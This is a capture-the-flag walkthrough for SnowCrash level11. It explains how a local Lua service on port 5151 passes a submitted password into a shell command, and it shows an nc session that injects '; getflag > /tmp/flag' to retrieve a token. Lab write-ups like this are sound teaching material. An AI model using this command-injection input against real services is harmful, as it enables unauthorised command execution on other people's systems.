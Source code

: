# Walkthrough

After examining my home directory, I discovered one file, that's a lua  script. ot listens for incoming network connections on the IP address `(127.0.0.1)` and port `5151`. When a client connects, the program sends a message asking for a password.

After receiving the password from the client, the script computes the SHA1 hash of the password using the `hash` function defined in the script. It then compares the resulting hash to a hardcoded value (f05d1d066fb246efe0c6f7d095f909a7a0cf34a0). If the hashes match, the program sends the message "Gz you dumb*" to the client, indicating that the password was correct. Otherwise, it sends the message "Erf nope.." to the client, indicating that the password was incorrect. After some time, I realized that when a hash function takes a string argument and uses it in a shell command, it is possible to exploit this by using "; getflag > /tmp/flag" as the argument, which allows one to retrieve the flag. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
